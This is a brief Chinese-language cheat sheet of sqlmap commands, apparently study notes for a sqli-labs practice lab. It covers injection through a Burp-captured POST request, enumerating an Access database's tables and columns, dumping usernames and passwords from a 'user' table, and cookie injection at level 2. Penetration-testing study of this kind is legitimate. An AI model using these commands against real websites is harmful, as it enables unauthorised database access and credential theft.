 ###### POST

> 使用bp获得HTTP信息复制保存到本地文件如test.txt
>
> sqlmap -r test.txt

##### ACCESS注入

> sqlmap -u url 	检测注入点
>
> sqlmap -u url --tables 获得数据库所有表		可以选择内置表和线程数Y
>
> sqlmap -u url --columns -T "user"	获取user表中的字段	可以选择内置表和线程数Y
>
> sqlmap -u url --dump -T "user" -C "username,password"	获取信息

##### COOKIE注入

> **使用cookie注入必须把url分为两段，并且leve 必须2以上**
>
> sqlmap -u "http://192.168.64.7/sqli-labs-master/Less-9/" --cookie "id=1" --leve 2
>
> sqlmap -u "http://192.168.64.7/sqli-labs-master/Less-9/" --cookie "id=1" --columns -T "user" --leve 2
>
> ......

